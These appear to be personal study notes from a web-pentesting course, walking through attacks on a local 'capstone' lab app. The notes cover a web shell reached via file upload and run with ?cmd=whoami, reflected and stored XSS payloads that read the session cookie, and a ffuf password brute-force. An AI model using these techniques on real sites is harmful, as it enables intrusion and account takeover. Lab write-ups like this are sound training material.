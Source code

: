 now:
refresh the home page and see the new coffee that you've uploaded
- `CTRL+SHIFT+C` -->  to open the dev mod
	![[Pasted image 20240310190848.png]]
- <span style="background:#fff88f">check where the img is been uploaded</span> -->  `/assets/10.png`
  =>
  try to connect to it:
  `http://localhost/capstone/assets/10.php`
	![[Pasted image 20240310190928.png]]
=>
<span style="background:#fff88f">let's add our parameter:</span>
  `http://localhost/capstone/assets/10.php?cmd=whoami`
  ![[Pasted image 20240310191102.png]]
### XSS - Capstone
when you login:
the mex that you see in the website is also reflected in the URL
=>
![[Pasted image 20240310181649.png]]

it's  XSS reflected vulnerable:
`<script> prompt(1) </script>`
![[Pasted image 20240310181735.png]]

<span style="color:#00b050">comment input is vulnerable to XSS:</span>
- if you try with `<script> prompt(1) </script>` -->  it opens the prompt
=>
it's a <span style="color:#00b050">stored XSS</span> -->  bc if you setup [[cheat#Firefox Multi-Account Containers]]
                   =>
                   and open the same pag as a new user -->  you'll get the same prompt

with:
`<script> alert(document.cookie)</script>` 
<span style="color:#00b050">we got a PHP SESSION cookie</span> -->  PHPSESSID=67470273aacacd80dc05b4642f824808


### Authentication attack - Capstone
Copy one single request with Burpsuite:
- turn on FoxyProxy
- Setup initial things for BurpSuite -->  [[cheat#Initial things to do]]
- send as credentials -->  admin:admin
- open the req into Burp 
- <span style="color:#00b050">Save the response Length </span>-->  (3376)
- Copy the req > Save it inside a txt file
- we already found some admin account =>  we'll fuzz only the passwords
- `password = FUZZPASS`
![[Pasted image 20240310180653.png]]
=>
`ffuf -request req_login.txt -request-proto http -w /home/simone/Desktop/TCM/wordlist/SecLists/Passwords/xato-net-10-million-passwords-10000.txt:FUZZPASS`
